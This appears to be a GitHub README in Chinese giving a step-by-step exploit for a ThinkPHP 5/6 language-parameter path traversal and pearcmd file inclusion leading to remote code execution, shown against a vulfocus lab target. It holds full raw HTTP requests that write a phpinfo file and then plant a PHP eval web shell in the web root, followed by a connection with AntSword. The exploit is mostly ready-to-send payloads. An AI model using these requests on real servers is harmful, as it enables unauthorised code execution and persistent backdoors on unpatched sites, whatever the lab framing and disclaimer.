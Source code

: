 # Thinkphp6-Lang-rce
个人测试成功上传，该项目中出现的地址均为vulfocus靶场地址。靶场地址为：https://vulfocus.cn/#/dashboard                                                                         

由于该漏洞有多种方法，在此我只是分享其中一种方法，大佬勿喷。还在学习中的一个小白。上传检测的脚本只限内查使用，如出现问题个人承担后果。由于脚本是网络收集，如有侵权请联系作者删除。

漏洞描述                                                                                                                                                                 
如果 Thinkphp 程序开启了多语言功能，攻击者可以通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

影响范围                                                                                                                                                                 
v6.0.1 < Thinkphp < v6.0.13                                                                                                                                             
Thinkphp v5.0.x                                                                                                                                                         
Thinkphp v5.1.x

第一步:测试环境是否在影响范围之中                                                                                                                                         
![image](https://user-images.githubusercontent.com/73454853/210168939-aa10f490-4e45-4da6-ba27-25b3d5393ff3.png)

第二步:尝试上传一个phpinfo并访问                                                                                                                                         
GET /public/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1                                     
Host: 123.58.224.8:42571                                                                                                                                               
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0                                                                           
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8                                                                           
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2                                                                                           
Accept-Encoding: gzip, deflate                                                                                                                                         
Connection: close                                                                                                                                                       
Cookie: Cookie: think-lang:zh-cn                                                                                                                                       
Upgrade-Insecure-Requests: 1

![image](https://user-images.githubusercontent.com/73454853/210169090-d916f2b8-8f69-4e1b-a5d3-90f0acc260c6.png)

尝试访问，出现phpinfo的页面则成功                                                                                                                                         
http://123.58.224.8:42571/public/index.php?lang=../../../../../../../../tmp/hello
![image](https://user-images.githubusercontent.com/73454853/210169223-21ae832c-7506-41e2-bf12-5ba61554e536.png)

尝试上传后门                                                                                                                                                             
GET /public/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_POST['ant']);?>+/var/www/html/1.php HTTP/1.1                 
Host: 123.58.224.8:42571                                                                                                                                               
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0                                                                           
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8                                                                           
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2                                                                                           
Accept-Encoding: gzip, deflate                                                                                                                                         
Connection: close                                                                                                                                                       
Cookie: think_lang=zh-cn                                                                                                                                               
Upgrade-Insecure-Requests: 1                                                                                                                                           

![image](https://user-images.githubusercontent.com/73454853/210169516-9a3bda35-4ae8-4e9c-9867-f9af6167876e.png)

尝试用蚁剑进行连接
![image](https://user-images.githubusercontent.com/73454853/210169499-2fc17cae-7714-4a73-ad5b-9b93a26ce365.png)

